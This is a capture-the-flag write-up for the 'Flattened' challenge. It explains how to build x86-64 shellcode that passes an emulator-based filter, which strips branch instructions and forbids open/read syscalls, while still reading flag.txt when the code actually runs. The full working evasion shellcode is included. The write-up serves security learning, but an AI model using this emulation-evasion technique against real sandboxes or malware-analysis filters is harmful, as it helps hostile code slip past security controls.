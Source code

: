 
# Flattened

## Overview

### Challenge Overview

The challenge features a program that receives shellcode as input, which it then executes.
The catch is that the program first removes all branching instructions from the shellcode before executing it and aborts on illegal system calls (syscalls).
We need to supply it with shellcode that passes (or bypasses) this filter in order to retrieve the flag.


### Approach Overview
Our approach works by creating shellcode that passes the filter, but when the branching instructions are removed, the semantics change in order to retrieve the flag.

## Challenge
After receiveing the shellcode, the challenge first simulates it with [qilling](https://github.com/qilingframework/qiling) (we refer to this as the _simulation phase_).
All instructions that are executed during the simulation phase are inserted into a buffer, with the exception of branching instructions (`jmp`, `call`, `ret`, etc.)
We refer to the shellcode in this buffer, as the _flattened_ shellcode.
If an _illegal syscall_ is encountered during simulation, that is, a syscall for which register `rax` is neither 1 (`write`) nor 60 (`exit`), the simulation phase aborts and the challenge ends.
Otherwise, the instructions are executed on the host, which we refer to as the _execution phase_.

## Approach

We start with the stock shellcode for retrieving the flag from a file named "flag.txt".
The following shellcode opens the file named "flag.txt", reads its content to a buffer, prints this buffer to `STDOUT` and exists.
These steps are achieved by using the syscalls `open`, `read`, `write` and `exit`, respectively.
```asm
global    _start
section   .text

_start:
; --- open file "flag.txt" ---
mov rax, 2 ; code for syscall "open"
xor rsi, rsi ; "flags" argument is "read-only"
push word 0x7478 ; write file name "flag.txt" to stack
push word 0x742e 
push word 0x6761
push word 0x6c66 
lea rdi, [rsp] ; ptr argument to file name
mov [rdi+8], rsi ; null byte at end of file name
xor rdx, rdx ; file mode (only applicable when creating a new file (I think))
syscall ; open file

; --- read file ---
mov rdi, rax ; move file descriptor, returned from "open" syscall, to "fd" argument for "read"
mov rsi, rsp ; use stack for read buffer
xor rdx, rdx 
mov dl, 128 ; read length
mov rax, 0 ; code for syscall "read"
syscall ; read flag

; --- write the flag ---
mov rdx, rax ; move num chars, returned from "read" syscall to "count" argument for "write"
xor rdi, rdi 
mov dil, 1 ; STDOUT fd
xor rax, rax 
mov al, 1 ; code for syscall "write"
syscall ; write flag

; --- exit ---
mov rdi, 1 ; exit code
mov rax, 60 ; code for syscall "exit"
syscall ; exit
```
This shellcode will not pass the filters, because it contains two illegal syscalls:
`rax=2` (`open`) and `rax=0` (`read`)

We need to change the shellcode so that it passes the filters during simulation, but still retrieves the flag during execution.
We achieve this by exploiting the fact that branching instructions are removed during the simulation phase.
In other words, during the simulation phase, only legal syscalls will be encountered (three writes and an exit).
Then, by flattening the shellcode, the semantics change so that the flag is retrieved instead.

We achieve this in the following way.
The `call` instruction pushes the address of the next instruction to the stack.
This is necessary for function calls, so that control-flow can continue from where the function was called, after its completion.
This instruction is removed by the challenge and will therefore not exists in the flattened shellcode.
Therefore, during simulation we have a different value at the top of stack than during execution.
To assign a specific value to a register, depending on whether we are in simulation or execution phase, we use the following pattern.
Say we want to assign the value `x` to the register `rax` during simulation and `y` during execution.
```asm
push y ; value for execution
push rsp
call _call1
dd x ; value for simulation
_ret1:
mov rax, [rsp]
mov rax, [rax]
...
_call1:
jmp _ret1
```
During simulation, the `call` instruction pushes the address of the `x` "instruction" to the stack (its fine if this is an illegal instruction, since it will not be executed in either simulation or execution).
Then, it branches to `_call1`, but just to jump back immediately.
At this point we have:  
`rsp --> < x insn addr> --> < x >`
Therefore, the instructions below will load `x` into `rax`.
```asm
mov rax, [rsp]
mov rax, [rax]
```

On the other hand, during execution, the flattened shellcode will be executed (note, `dd x` is not included, since it was not executed during simulation):
```asm
push y ; value for execution
push rsp
mov rax, [rsp]
mov rax, [rax]
...
```
Therefore, we have:  
`rsp --> < some addr > --> y`
In this case, the instructions below will load `y` into `rax`.
```asm
mov rax, [rsp]
mov rax, [rax]
```
Therefore, we have successfully loaded a different value into a register depending on whether we are in simulation phase or execution phase.


We will mainly use this technique to set `rax=1` during simulation and `rax=2` / `rax=0` during execution.
However, we also need this technique to ensure we pass sensible arguments to the different syscalls, in both simulation and execution.

The final shellcode follows.

```asm
global    _start
section   .text

_start:
; --- open file "flag.txt" ---
push 2 ; code for syscall "open" (execution)
push rsp 
call _call1
dd 1 ; code for syscall "write" (simulation)
_ret1:
mov rax, [rsp]
mov eax, [rax]
xor rsi, rsi ; "flags" argument "read-only" (execution) / It seems a buffer of NULL for write is acceptable (simulation)
push word 0x7478 ; write file name "flag.txt" to stack
push word 0x742e
push word 0x6761
push word 0x6c66
lea rdi, [rsp] ; ptr argument to file name
mov [rdi+8], rsi ; null byte at end of file name
push rdi ; pointer to filename for "open" (execution)
push rsp 
call _call2
db 01 ; STDOUT for "write" (simulation)
times 7 db 00
_ret2:
mov rdi, [rsp]
mov rdi, [rdi] 
xor rdx, rdx ; open "mode" (execution) / write "count" (simulation) (0, so nothing will be written)
syscall ; open file (execution) / write "" (simulation)


; --- read file ---
mov rdi, rax ; move file descriptor, returned from "open" syscall, to "fd" argument for "read" (execution) / move num bytes written (0) to rdi (simulation) 
mov rsi, rsp ; use stack for buffer
xor rdx, rdx 
push 0 ; code for syscall "read" (execution)
push rsp 
call _call3
db 01 ; code for syscall "write" (simulation)
times 7 db 00
_ret3:
mov rax, [rsp]
mov rax, [rax]
push 128 ; size for "read" (execution)
push rsp 
call _call4
times 8 db 0 ; size for "write" (simulation)
_ret4:
mov rdx, [rsp]
mov rdx, [rdx]
push rdi ; file descriptor for "read" from "open" (execution)
push rsp
call _call5
db 01 ; STDOUT file descriptor for "write" (simulation)
times 7 db 00
_ret5:
mov rdi, [rsp]
mov rdi, [rdi]
syscall ; read file (execution) / write "" (simulation)


; Since the "write" and "exit" syscalls are legal, we can use the stock shellcode from here.
; --- write the flag ---
mov rdx, rax ; move num chars, returned from "read" syscall to "count" argument for "write"
xor rdi, rdi
mov dil, 1 ; STDOUT fd
xor rax, rax
mov al, 1 ; code for syscall "write"
syscall ; write flag

; --- exit ---
mov rdi, 1 ; exit code
mov rax, 60 ; code for syscall "exit"
syscall ; exit

_call1:
jmp _ret1
_call2:
jmp _ret2
_call3:
jmp _ret3
_call4:
jmp _ret4
_call5:
jmp _ret5
```
